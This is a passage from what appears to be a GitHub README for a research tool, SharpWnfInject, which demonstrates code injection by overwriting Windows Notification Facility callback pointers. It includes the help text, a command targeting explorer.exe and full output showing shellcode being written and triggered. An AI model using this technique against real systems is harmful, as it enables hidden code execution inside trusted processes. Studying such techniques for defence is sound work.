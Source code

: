 ```

[*] svchost (PID : 2352)
[*] svchost (PID : 4952)
[*] MsMpEng (PID : 3132)
    
--snip--

[*] Done.
```


### SharpWnfInject

[Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfInject)

This tool is to investigate how attackers can abuse WNF for code injection technique:

```
PS C:\Dev> .\SharpWnfInject.exe -h

SharpWnfInject - Tool to investigate WNF code injection technique.

Usage: SharpWnfInject.exe [Options]

        -h, --help  : Displays this help message.
        -n, --name  : Specifies WNF State Name to inject. Hex format or Well-known name format is accepted.
        -p, --pid   : Specifies PID to inject.
        -i, --input : Specifies the file path to shellcode.
        -d, --debug : Flag to enable SeDebugPrivilege. Requires administrative privilege.

[!] -n option is required.
```

This tool overwrite callback function pointer in `WNF_USER_SUBSCRIPTION` for a specific WNF State Name.
The code injection technique does not work for all WNF State Name.
For example, this technique is known to be available for `WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED` used by `explorer.exe` in Windows 11 23H2.
To test this technique, execute this tool as follows:

```
PS C:\Dev> .\SharpWnfInject.exe -p 5800 -n WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED -i .\notepad_arm64.bin

[*] Target WNF State Name is 0x0D83063EA3BE10F5 (WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED).
[+] Got a handle from the target Process
    [*] Process Name    : explorer.exe
    [*] Process ID      : 5800
    [*] Image File Name : C:\Windows\explorer.exe
    [*] Architecture    : ARM64
[+] Pointer for WNF_SUBSCRIPTION_TABLE is at 0x00007FFE886F4E20.
[+] WNF_SUBSCRIPTION_TABLE is at 0x0000000001206660.
[*] WNF_NAME_SUBSCRIPTION is at 0x0000000001273540.
[+] Got 1 WNF_USER_SUBSCRIPTION.
[*] Target callback pointer is at 0x00000000051C2250.
[*] Callback function is at 0x00007FFE54FD4D20 (twinui!DllGetClassObject+0x11AFF0).
[+] Shellcode buffer is at 0x0000000003270000.
[+] 344 bytes shellcode is written successfully.
[+] Callback pointer is overwritten successfully.
[>] Triggering shellcode.
[+] WNF State Data is updated successfully. Shellcode might be executed.
[+] Callback pointer is reverted successfully.
[*] Done.
```